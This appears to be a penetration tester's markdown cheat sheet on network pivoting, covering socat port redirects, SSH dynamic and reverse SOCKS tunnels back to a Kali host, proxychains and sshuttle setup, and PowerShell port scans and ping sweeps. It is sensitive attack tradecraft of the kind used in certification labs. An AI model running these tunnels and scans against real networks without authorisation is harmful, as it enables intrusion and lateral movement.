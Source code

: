 <% tp.file.rename("4_Pivoting_A-B")%>
# Port Redirect

\[Subnets\]                         WAN          |     Subnet  1     |      Subnet 2     |      Subnet 3
\[Hosts\]               Kali    --->   Machine A ---> Machine B ---> Machine C
\-
\[Simple\]                                        Socat                  Target
\[Local\]                                      SSH Client           SSH Server             Target
\[Remote\]     SSH Server          SSH Client              Target



### Simple static

```bash
socat -ddd TCP-LISTEN:2345,fork TCP:$hip:$hport
```
(Machine A)

Alternative with netcat: https://gist.github.com/holly/6d52dd9addd3e58b2fd5
Alternative requiring root rights: iptables


### Local Dynamic

```powershell
ssh -N -D 0.0.0.0:9999 $user_B@$ip_B
```
(Machine A)

### Remote Dynamic with ProxyChains and SSH
##### 1st Setup (kali machine)
SSH
```
ssh-keygen -t rsa -b 4096 -f ./id_rsa_kali
cat ./id_rsa_kali.pub >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
```
ProxyChains
```bash
nano /etc/proxychains4.conf
```
> With it, tools that do not support socks proxys by default, can be made compatible with the tunnel IF they are (most) dynamically-linked binaries.
> For local redirects add `socks5 $hip 9999` to the end.
> For remote redirects use `socks5 127.0.0.1 9999`.
> If socks4 is required, UDP and IPv6 won't be supported.
##### Use it
(kali machine)
```bash
sudo systemctl start ssh
```
In use with port scanning, you might lower `tcp_read_time_out` and `tcp_connect_time_out` in `/etc/proxychains4.conf` to dramatically increase scanning speed.

(Machine A, interactive)
```bash
ssh -N -R 9999 kali@$ip_kali
```
or
(Machine A, non-interactive)
Copy the private key `/ftphome/id_rsa_kali` to machine A. Then, run the following on it:
```bash
ssh -f -q -o BatchMode=yes -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -i id_rsa_kali -N -R 9999 kali@$hip
```

(kali machine)
`proxychains <command>` to start e.g. a nmap scan over the pivot
> Warning: It appears to then not use the IP-Addresses put into `/etc/hosts`

### Remote Dynamic with sshuttle
> Requires python on machine A!

```bash
socat TCP-LISTEN:2222,fork TCP:$ip_B:22
```
(Machine A)

```bash
sshuttle -r $user_A@$ip_A:2222 $subnet_2 $subnet_1
```
(kali machine)



# Windows specific

Enable Telnet
```powershell
dism /online /Enable-Feature /FeatureName:TelnetClient
```

Portscan LOLBAS
```powershell
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("$hip", $_)) "TCP port $_ is open"} 2>$null
```

Pingsweep LOLBAS
```powershell
workflow pingsweep { foreach -parallel ($computer in 1..254) { if (Test-Connection -BufferSize 32 -Count 1 -ComputerName 192.168.209.$computer -Quiet) {echo "192.168.209.$computer"} {echo "nein"} } }; pingsweep
```

```powershell
1..254 | % { if (Test-Connection -BufferSize 32 -Count 1 -ComputerName 192.168.209.$_ -Quiet) {echo "192.168.209.$_"}} 2>$null
```

```powershell
$(foreach ($computer in 1..254) { Start-Job -ScriptBlock { if ( Test-Connection -BufferSize 32 -Count 1 -ComputerName 192.168.209.$using:computer -Quiet ) {echo "192.168.209.$using:computer"} } }) | Receive-Job -Wait
```


For port forwarding techniques using the windows tools ssh.exe, plink, and netsh, consider the oscp manual